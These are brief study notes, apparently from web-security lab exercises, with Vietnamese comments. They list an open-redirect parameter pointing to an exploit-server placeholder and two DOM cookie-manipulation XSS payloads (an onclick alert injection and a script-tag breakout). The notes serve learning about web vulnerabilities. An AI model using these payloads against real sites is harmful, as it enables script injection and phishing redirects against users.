 
1.DOM-based open redirection
```
&url=https://EXPLOIT_SERVER_ID/  
```


2.DOM-based cookie manipulation
```
productId=17#'onclick='alert(1); # cần click để trigger
'><script>print()</script> # không cần click ( bản chất vẫn là xss injection vào chuỗi)

```
